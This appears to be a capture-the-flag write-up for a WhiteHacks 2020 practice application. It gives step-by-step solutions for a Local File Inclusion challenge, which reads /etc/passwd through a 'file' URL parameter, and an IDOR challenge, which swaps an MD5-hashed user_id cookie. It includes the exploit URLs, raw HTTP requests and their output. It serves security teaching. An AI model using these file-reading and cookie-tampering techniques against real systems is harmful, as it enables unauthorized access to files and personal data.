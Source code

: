 # SecTech (6 challenges)

### Summary
1. LFI -> Flag
2. IDOR -> Flag
3. Insecure Deserialization -> Flag
4. XSS in PDF Generator -> Flag
5. SSRF to AWS Metadata -> Flag
6. Misconfigured S3 Bucket -> OSINT of Github Account -> Sensitive Information Disclosure in Git Commits -> Flag

# GovTech SecTech (1/6) - LFI
### Description
WhiteHacks SecTech is an application for SecTech school staff to login to the system and to view students grades and to generate transcripts. However, could you perhaps view more than transcripts?
### Solution

Notice in the 'View Transcript' functionality - http://sec-tech.cf/transcript.php?user=temp_acc&password=temp_pass&user_id=1&file=transcript.html

There is a 'file' parameter, these types of parameters are usually vulnerable to Local File Inclusion

We can dump the /etc/passwd file - http://sec-tech.cf/transcript.php?user=temp_acc&password=temp_pass&user_id=1&file=/etc/passwd

``````
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List 
Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time 
Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd 
Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:105::/nonexistent:/usr/sbin/nologin avahi:x:105:110:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin 
geoclue:x:106:111::/var/lib/geoclue:/usr/sbin/nologin admin:x:1000:1000:admin:/home/admin:/secret_path/lfi_flag.txt 
``````
Notice the last line?
``````
admin:x:1000:1000:admin:/home/admin:/secret_path/lfi_flag.txt 
``````
Let's visit that - http://sec-tech.cf/transcript.php?user=temp_acc&password=temp_pass&user_id=1&file=/secret_path/lfi_flag.txt 

Flag:
WH2020{Loc@l_F1l3_Inclus10n_buT_N0t_sh3ll}

# GovTech SecTech (2/6) - IDOR
### Description
Insecure Direct Object Reference can have severe repercussions for applications. One mitigation technique is to avoid trusting user input. If you are tired, have some cookies with milk?
### Solution

When we visit anywhere in the webpage we notice in Burp Intruder,
``````
GET /profile.php HTTP/1.1
Host: sec-tech.cf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: sectech=YToyOntzOjQ6InVzZXIiO3M6ODoidGVtcF9hY2MiO3M6NToiYWRtaW4iO2I6MDt9; PHPSESSID=eab13e70980504c609cf4b5b3b8764b8; user_id=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
``````
IDOR (Insecure Direct Object Reference) is a easy-to-find yet serious vulnerability affecting web applications. This occurs when user-controlled input is used to access objects in applications

Notice that the user_id in the Cookie: header is a MD5 hash. We can try and search up that hash online - https://md5.gromweb.com/?md5=c4ca4238a0b923820dcc509a6f75849b

``````
The MD5 hash:
c4ca4238a0b923820dcc509a6f75849b
was succesfully reversed into the string:
1
``````
Therefore the we can modify the user_id parameter to a different number - https://www.md5hashgenerator.com/
``````
Your Hash: c81e728d9d4c2f636f067f89cc14862c
Your String: 2
``````
And send it in Burp to profile.php
``````
GET /profile.php HTTP/1.1
Host: sec-tech.cf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: sectech=YToyOntzOjQ6InVzZXIiO3M6ODoidGVtcF9hY2MiO3M6NToiYWRtaW4iO2I6MDt9; PHPSESSID=eab13e70980504c609cf4b5b3b8764b8; user_id= c81e728d9d4c2f636f067f89cc14862c
Upgrade-Insecure-Requests: 1
``````
In Burp Suite, we can view the table
``````
Item 	Value
Name 	Billie Jean
Role 	Perm Staff
Date of Birth 	1st July 1988
Email 	billie_jean@sectech.com.sg
Flag 	WH2020{ID0R_D0_N0T_TRUST_US3R_INPUT}
``````

Flag:
WH2020{ID0R_D0_N0T_TRUST_US3R_INPUT}
